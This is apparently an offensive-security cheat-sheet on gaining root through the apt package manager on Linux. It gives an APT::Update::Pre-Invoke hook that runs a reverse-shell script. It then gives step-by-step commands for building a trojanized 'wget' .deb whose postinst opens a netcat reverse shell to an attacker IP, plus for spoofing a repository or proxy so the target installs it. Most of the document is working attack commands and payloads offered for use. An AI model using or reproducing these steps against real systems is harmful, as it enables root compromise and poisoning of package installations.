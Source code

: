 ## Requirements: Possibly a crontab that runs apt as root or the user can run apt/apt-get runs as root with sudo

### Steps:

#### 1) Create a malicious config file (pwnapt) that calls your reverse shell script

    APT::Update::Pre-Invoke {"/bin/bash /tmp/pwn.sh"} 

#### 2) Create a reverse shell file (pwn.sh)

#### 3) Upload the config file to the /etc/apt/apt.conf.d/00pwn via any method you can (FTP,tftp,etc)

#### 4) Setup listener

#### 5) GG!

### BONUS!

### Apt configuration files directory: /etc/apt/sources.list.d/ (Check for any files that might contain places that are package repositories for the package manager to pull from)

## Setting up a malicious repository

### Requirements: Trace down where the apt manager of the target machine installs its packages from by checking out the /etc/apt/sources.list/ directory. Also choose a package which is already present on the target machine (wget for example).

### TIP: In sudo configurations (sudo -l) if the http_proxy environment variable is kept while the command is executed as root, before doing the required setup, we can also do: export http_proxy="http://OUR_PROXY:8000" (The proxy is the one we open if we detect this env variable to force the package manager to use our repository) Run the proxy first, then run a simple python3 server and then check if your server receives any requests.

### Steps:

#### 1) 

    mkdir build

#### 2) 

    mkdir -p wget/DEBIAN

#### 3) 

    nano/vim wget/DEBIAN/control (Create the control file with the metadata)

#### Control file contents

    Package: wget

    Architecture: all

    Maintainer: @WHATEVER

    Priority: optional

    Version: 5.0

    Description: GGEZ!

#### 4) 

    mkdir -p wget/usr/bin

#### 5) 

    nano/vim wget/usr/bin/wget (Make a dummy binary)

#### Dummy binary contents 

    #!/bin/bash

    echo "Whatever"

#### 6) 

    chmod 700 wget/usr/bin/mypackage

#### 7) 

    nano/vim wget/DEBIAN/postinst (Create the malicious script)

#### Malicious script (postinst) contents

    #!/bin/bash

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc OUR_IP PORT

#### 8) 

    chmod 755 wget/DEBIAN/postinst

#### 9) 

    dpkg-deb --build wget/ (Package it)

#### 10) Create a file named "Packages" with the contents:

    Package: wget

    Version: 5.0

    Maintainer: WHATEVER

    Architecture: all

    Description: Pwnie package

    Multi-Arch: foreign

    Filename: pwn/wget.deb

    Size: 800

    MD5sum: e5c858d924abbe4effcd1fe1ca4eb21a

    SHA1: 6822716507fe71737c635995f3f8f049d8b3cdf9

    SHA256: 76a31c4e20bf4530027004bf7794b9c7993960d51933ce772b1594d4fc74aca5

### (You can gain the hashes for the .deb file with the md5sum, sha256sum and sha1sum respectively and the size can be gained with ls -la)

#### 11) Finish the setup using gzip

#### 12) Create the directories by replicating the repository we want to spoof with the purpose of the target apt manager downloads the package from our repository instead. Place your package in the right folder according to use case. 

#### 13) Run sudo apt-get update and sudo apt-get upgrade on target machine to download our malicious packages file.

#### 14) If the package has been downloaded, press yes to install it

#### 15) GG!
